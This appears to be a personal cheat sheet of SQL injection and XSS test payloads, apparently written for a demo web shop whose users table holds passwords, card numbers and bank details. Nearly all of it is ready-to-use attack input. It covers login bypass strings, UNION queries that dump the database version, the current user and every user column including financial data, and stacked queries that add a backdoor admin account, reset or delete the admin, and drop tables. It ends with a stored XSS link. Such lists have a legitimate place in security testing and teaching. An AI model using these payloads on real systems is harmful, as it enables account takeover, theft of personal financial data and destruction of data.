 ########## SQLi TESTING ##########

Username for login as first available user
' OR '1'='1
' OR '1'='1' --

Login exploit know the username
' OR username='admin' --
' OR username = 'wick.johnathan'--

Get db version
' UNION SELECT 1, version(), 'x', 'x', 'x', 'x', '2000-01-01', 'x', 'x', 'x', 'x', 0.0, 'x', 'x', 0 --

Get db name
' UNION SELECT 1, database(), 'x', 'x', 'x', 'x', '2000-01-01', 'x', 'x', 'x', 'x', 0.0, 'x', 'x', 0 --

Get current mysql user (root@localhost)
' UNION SELECT 1, user(), 'x', 'x', 'x', 'x', '2000-01-01', 'x', 'x', 'x', 'x', 0.0, 'x', 'x', 0 --

Extract all columns from user table
' UNION SELECT id, username, password, full_name, email, phone_number, date_of_birth, shipping_address, bank_account_number, credit_card_number, paypal_info, wallet_amount, wallet_password, bought_items, is_admin FROM users --

Show all users
' OR '1'='1' --

----- Multiple Statements:

Backdoor creation
'; INSERT INTO users(username, password, is_admin) VALUES('hacker', 'pass123', 1);--

Modify or delete data
'; UPDATE users SET password='newpass' WHERE username='admin';--

'; DELETE FROM users WHERE username='admin';--
'; DROP TABLE users;--

TRY DROP TABLE 
105; DROP TABLE Suppliers
TRY GET PASSWORD
SELECT UserId, Name, Password FROM Users WHERE UserId = 105 or 1=1;

Create or modify database objects
'; CREATE TABLE backdoor(id INT PRIMARY KEY, secret VARCHAR(100));--

########## XSS TESTING ##########
Persistent XSS attempt in demo
'<a href="#" onclick="alert(''XSS Executed!''); return false;">Click me!</a>'
